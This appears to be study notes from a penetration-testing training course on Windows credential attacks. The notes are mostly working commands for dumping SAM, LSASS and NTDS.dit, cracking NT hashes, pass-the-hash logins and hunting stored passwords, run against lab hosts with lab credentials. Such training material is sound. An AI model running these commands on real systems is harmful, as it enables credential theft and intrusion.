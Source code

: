 ## Attacking SAM
```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```
Technically we will only need `hklm\sam` & `hklm\system`, but `hklm\security` can also be helpful to save as it can contain hashes associated with cached domain user account credentials present on domain-joined hosts.
```shell-session
Orbixio@htb[/htb]$ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
==Cracking NT Hashes==
```shell-session
Orbixio@htb[/htb]$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```
Refrence: https://hashcat.net/wiki/doku.php?id=example_hashes
==Remote Dumping==
```shell-session
Orbixio@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
Orbixio@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```
## Attacking LSASS

==Task Manager Method==
With access to an interactive graphical session with the target, we can use task manager to create a memory dump. This requires us to:

![Task Manager Memory Dump](https://academy.hackthebox.com/storage/modules/147/taskmanagerdump.png)

`Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file`
```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```
==Rundll32.exe & Comsvcs.dll Method==
```cmd-session
C:\Windows\system32> tasklist /svc
PS C:\Windows\system32> Get-Process lsass

PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```
With this command, we are running `rundll32.exe` to call an exported function of `comsvcs.dll` which also calls the MiniDumpWriteDump (`MiniDump`) function to dump the LSASS process memory to a specified directory (`C:\lsass.dmp`).
==Dumping & Cracking==
Once we have the dump file on our attack host, we can use a powerful tool called [pypykatz](https://github.com/skelsec/pypykatz) to attempt to extract credentials from the .dmp file. Pypykatz is an implementation of Mimikatz written entirely in Python.
```shell-session
Orbixio@htb[/htb]$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp 


Orbixio@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```
## Attacking Active Directory & NTDS.dit
```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
Transfer the file `C:\NTDS\NTDS.dit` to attacker host via any method.
==Alternative via CrackMapExec==
```shell-session
Orbixio@htb[/htb]$ crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```
==Cracking==
```shell-session
Orbixio@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```
==PassTheHash==
```shell-session
Orbixio@htb[/htb]$ evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```
## Credential Hunting in Windows
Here are some helpful key terms we can use that can help us discover some credentials:
1. Passwords
2. Passphrases
3. Keys
4. Username
5. User account
6. Credentials
7. Users
8. Passkeys
9. Passphrases
10. Configuration
11. DB credentials
12. DB password
13. Pwd
14. Login
15. Credentials
We can also take advantage of third-party tools like [Lazagne](https://github.com/AlessandroZ/LaZagne) to quickly discover credentials that web browsers or other installed applications may insecurely store.
```cmd-session
C:\Users\bob\Desktop> start lazagne.exe all

C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```
Here are some other places we should keep in mind when credential hunting:

- Passwords in Group Policy in the SYSVOL share
- Passwords in scripts in the SYSVOL share
- Password in scripts on IT shares
- Passwords in web.config files on dev machines and IT shares
- unattend.xml
- Passwords in the AD user or computer description fields
- KeePass databases --> pull hash, crack and get loads of access.
- Found on user systems and shares
- Files such as pass.txt, passwords.docx, passwords.xlsx found on user systems, shares, [Sharepoint](https://www.microsoft.com/en-us/microsoft-365/sharepoint/collaboration)